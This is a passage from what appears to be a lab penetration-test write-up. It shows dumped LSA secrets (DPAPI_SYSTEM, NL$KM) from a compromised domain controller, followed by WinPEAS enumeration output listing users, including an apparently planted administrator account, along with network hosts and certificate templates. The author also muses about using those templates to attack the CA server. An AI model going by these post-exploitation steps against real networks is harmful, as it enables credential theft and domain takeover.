0070   10 FE 11 60 3F A3 03 EF ED 8F 0E 7D E1 2B 0A CD    ...`?......}.+..
0080   C0 F1 B0 87 03 A9 88 3C 6F B5 72 6D 83 85 5A EF    .......<o.rm..Z.
0090   DD 7D AF 82 92 C3 9B 1C 12 38 46 D7 18 79 82 85    .}.......8F..y..
00A0   AC 2B 51 E2 EC 4C 5C 38 94 07 1D 1D 68 3E 50 90    .+Q..L.8....h>P.
00B0   F6 64 17 73 CB A5 3E D5 7A B6 8D FC 09 9C 03 7C    .d.s..>.z......|
00C0   98 99 E5 E4 3D 9D 87 09 E7 73 E5 DD BE 06 B8 BA    ....=....s......
00D0   6A 96 6A 14 1A 9C 4D 6B 8F 91 19 D5 E6 54 A9 19    j.j...Mk.....T..
00E0   FB 57 19 24 B0 31 3D 9A BB 89 4A CB 9C 59 4C 02    .W.$.1=...J..YL.
00F0   56 30 12 D5 8A E8 41 7B 38 25 2B 0C 99 50 B1 8E    V0....A{8%+..P..
0100   30 66 1F 7E 3D E7 92 AD 4B 9B CB 56 42 87 FB C9    0f.~=...K..VB...

DPAPI_SYSTEM
0000   01 00 00 00 C5 0E E6 7B 89 01 24 A1 4E C6 73 5E    .......{..$.N.s^
0010   E1 CA FF 33 72 32 11 9F 30 1E 82 F7 C1 AE 10 07    ...3r2..0.......
0020   BA 51 0B 38 39 7B 8A FF FF AB 11 2D                .Q.89{.....-

NL$KM
0000   40 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    @...............
0010   07 E9 F2 3F 08 49 46 07 02 CE 30 4B 65 D3 86 32    ...?.IF...0Ke..2
0020   6F 02 5D 36 7D E8 30 33 F4 71 94 44 98 37 CB 1A    o.]6}.03.q.D.7..
0030   05 CC 76 F1 26 E2 94 E7 D3 54 78 1F EF BE E9 13    ..v.&....Tx.....
0040   30 3B 62 CB A5 57 75 E6 78 F3 D4 55 5C 68 20 15    0;b..Wu.x..U.h .
0050   C1 82 71 23 CA 78 0F 7F 21 9C F6 56 2F E5 1C 63    ..q#.x..!..V/..c


[+] 2 passwords have been found.
For more information launch it again with the -v option

elapsed time = 9.48441457748413
```

And laslly run Winpeas to check for possible missing informations:

```
ÉÍÍÍÍÍÍÍÍÍ͹ Basic System Information
È Check if the Windows versions is vulnerable to some known exploit https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#kernel-exploits
    OS Name: Microsoft Windows Server 2022 Datacenter
    OS Version: 10.0.20348 N/A Build 20348
    System Type: x64-based PC
    Hostname: ZPH-SVRDC01
    Domain Name: zsm.local
    ProductName: Windows Server 2022 Datacenter
    EditionID: ServerDatacenter
    ReleaseId: 2009
    BuildBranch: fe_release_svc_prod2
    CurrentMajorVersionNumber: 10
    CurrentVersion: 6.3
    Architecture: AMD64
    ProcessorCount: 2
    SystemLang: en-US
    KeyboardLang: English (United Kingdom)
    TimeZone: (UTC+00:00) Dublin, Edinburgh, Lisbon, London
    IsVirtualMachine: True
    Current Time: 19/09/2023 11:56:33
    HighIntegrity: True
    PartOfDomain: True
    Hotfixes: KB5022507, KB5012170, KB5026370, KB5026493, 

  [?] Windows vulns search powered by Watson(https://github.com/rasta-mouse/Watson)
winPEASx64.exe :  [!] Windows version not supported, build number: '20348'
    + CategoryInfo          : NotSpecified: ( [!] Windows ve...number: '20348':String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError


ÉÍÍÍÍÍÍÍÍÍ͹ Display information about local users
   Computer Name           :   ZPH-SVRDC01
   User Name               :   Administrator
   User Id                 :   500
   Is Enabled              :   True
   User Type               :   Administrator
   Comment                 :   Built-in account for administering the computer/domain
   Last Logon              :   19/09/2023 05:19:48
   Logons Count            :   474
   Password Last Set       :   10/11/2022 15:43:40

   =================================================================================================

   Computer Name           :   ZPH-SVRDC01
   User Name               :   Guest
   User Id                 :   501
   Is Enabled              :   False
   User Type               :   Guest
   Comment                 :   Built-in account for guest access to the computer/domain
   Last Logon              :   01/01/1970 00:00:00
   Logons Count            :   0
   Password Last Set       :   01/01/1970 00:00:00

   =================================================================================================

   Computer Name           :   ZPH-SVRDC01
   User Name               :   krbtgt
   User Id                 :   502
   Is Enabled              :   False
   User Type               :   User
   Comment                 :   Key Distribution Center Service Account
   Last Logon              :   01/01/1970 00:00:00
   Logons Count            :   0
   Password Last Set       :   15/03/2022 16:20:34

   =================================================================================================

   Computer Name           :   ZPH-SVRDC01
   User Name               :   daniel.morris
   User Id                 :   1107
   Is Enabled              :   True
   User Type               :   User
   Comment                 :
   Last Logon              :   22/03/2022 23:53:46
   Logons Count            :   110
   Password Last Set       :   22/03/2022 07:56:31

   =================================================================================================

   Computer Name           :   ZPH-SVRDC01
   User Name               :   paul.williams
   User Id                 :   1110
   Is Enabled              :   True
   User Type               :   User
   Comment                 :
   Last Logon              :   01/01/1970 00:00:00
   Logons Count            :   0
   Password Last Set       :   28/03/2022 10:34:06

   =================================================================================================

   Computer Name           :   ZPH-SVRDC01
   User Name               :   marcus
   User Id                 :   4102
   Is Enabled              :   True
   User Type               :   User
   Comment                 :
   Last Logon              :   19/09/2023 05:23:09
   Logons Count            :   79
   Password Last Set       :   26/05/2023 13:06:12

   =================================================================================================

   Computer Name           :   ZPH-SVRDC01
   User Name               :   ca_svc
   User Id                 :   4104
   Is Enabled              :   True
   User Type               :   User
   Comment                 :
   Last Logon              :   12/07/2023 09:29:26
   Logons Count            :   0
   Password Last Set       :   26/10/2022 17:20:38

   =================================================================================================

   Computer Name           :   ZPH-SVRDC01
   User Name               :   jamie
   User Id                 :   4602
   Is Enabled              :   True
   User Type               :   User
   Comment                 :
   Last Logon              :   28/10/2022 13:56:42
   Logons Count            :   3
   Password Last Set       :   28/10/2022 13:48:03

   =================================================================================================

   Computer Name           :   ZPH-SVRDC01
   User Name               :   yovecio
   User Id                 :   19101
   Is Enabled              :   True
   User Type               :   Administrator
   Comment                 :
   Last Logon              :   01/01/1970 00:00:00
   Logons Count            :   0
   Password Last Set       :   19/09/2023 11:28:07


ÉÍÍÍÍÍÍÍÍÍ͹ Network Ifaces and known hosts
È The masks are only for the IPv4 addresses 
    Ethernet0[00:50:56:B9:AA:67]: 192.168.210.10, fe80::2c:2d15:7f11:1c5d%6 / 255.255.255.0
        Gateways: 192.168.210.1
        DNSs: ::1, 127.0.0.1
        Known hosts:
          192.168.210.1         00-50-56-B9-F0-C2     Dynamic
          192.168.210.11        00-50-56-B9-C3-AB     Dynamic
          192.168.210.12        00-50-56-B9-19-8F     Dynamic
          192.168.210.13        00-50-56-B9-FB-CC     Dynamic
          192.168.210.14        00-50-56-B9-F4-E0     Dynamic
          192.168.210.15        00-50-56-B9-7C-B4     Dynamic
          192.168.210.16        00-50-56-B9-9B-5D     Dynamic
          192.168.210.17        00-50-56-B9-60-F0     Dynamic
          192.168.210.18        00-50-56-B9-8D-55     Dynamic
          192.168.210.19        00-50-56-B9-29-13     Dynamic
          192.168.210.255       FF-FF-FF-FF-FF-FF     Static
          224.0.0.22            01-00-5E-00-00-16     Static
          224.0.0.251           01-00-5E-00-00-FB     Static
          224.0.0.252           01-00-5E-00-00-FC     Static

    Loopback Pseudo-Interface 1[]: 127.0.0.1, ::1 / 255.0.0.0
        DNSs: fec0:0:0:ffff::1%1, fec0:0:0:ffff::2%1, fec0:0:0:ffff::3%1
        Known hosts:
          224.0.0.22            00-00-00-00-00-00     Static


ÉÍÍÍÍÍÍÍÍÍ͹ Enumerating machine and user certificate files

  Issuer             : CN=zsm-ZPH-SVRCA01-CA, DC=zsm, DC=local
  Subject            :
  ValidDate          : 25/04/2023 07:39:29
  ExpiryDate         : 24/04/2024 07:39:29
  HasPrivateKey      : True
  StoreLocation      : LocalMachine
  KeyExportable      : False
  Thumbprint         : 6710A447D9B4E4DC10066A5EA79B829093D24443

  Template           : Template=Kerberos Authentication(1.3.6.1.4.1.311.21.8.14110988.5811095.11027111.4240475.2837148.211.1.33), Major Version Number=110, Minor Version Number=0
  Enhanced Key Usages
       Client Authentication     [*] Certificate is used for client authentication!
       Server Authentication
       Smart Card Logon
       KDC Authentication
   =================================================================================================

  Issuer             : CN=zsm-ZPH-SVRCA01-CA, DC=zsm, DC=local
  Subject            :
  ValidDate          : 25/04/2023 07:39:28
  ExpiryDate         : 24/04/2024 07:39:28
  HasPrivateKey      : True
  StoreLocation      : LocalMachine
  KeyExportable      : False
  Thumbprint         : 3872196E9388D6D9EB1F27A6DBA81B64989E8191

  Template           : Template=Domain Controller Authentication(1.3.6.1.4.1.311.21.8.14110988.5811095.11027111.4240475.2837148.211.1.28), Major Version Number=110, Minor Version Number=0
  Enhanced Key Usages
       Client Authentication     [*] Certificate is used for client authentication!
       Server Authentication
       Smart Card Logon
   =================================================================================================

  Issuer             : CN=zsm-ZPH-SVRCA01-CA, DC=zsm, DC=local
  Subject            :
  ValidDate          : 25/04/2023 07:39:13
  ExpiryDate         : 24/04/2024 07:39:13
  HasPrivateKey      : True
  StoreLocation      : LocalMachine
  KeyExportable      : False
  Thumbprint         : 1FD2CC280D9B555DC91D1FB4D6C3B146FCB1D0B1

  Template           : Template=Directory Email Replication(1.3.6.1.4.1.311.21.8.14110988.5811095.11027111.4240475.2837148.211.1.29), Major Version Number=115, Minor Version Number=0
  Enhanced Key Usages
       Directory Service Email Replication
   =================================================================================================
```

I don't see that much new except some Certificate templates on the DC from CA server, which might be a help for us on how to exploit Administrator on CA server?

We are done here so far.

&nbsp;

&nbsp;